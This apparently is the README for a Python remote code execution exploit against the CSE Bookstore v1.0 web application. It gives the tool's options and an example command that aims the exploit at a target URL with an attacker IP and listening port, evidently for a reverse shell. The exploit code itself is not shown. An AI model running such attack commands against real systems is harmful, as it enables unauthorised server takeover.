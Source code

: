 # CSE-Bookstore-v1.0-RCE
Remote Code Execution python script for CSE Bookstore v1.0

# Usage
```
---- CSE BookStore RCE ----
options:
  -h, --help  show this help message and exit
  -u URL      The url of the Target
  -l LHOST    The IP of the Attacker
  -p LPORT    The listening Port
```

**Example**

```
$ python3 exploit.py -u http://cse-bookstore -l 10.123.25.4 -p 4444
```
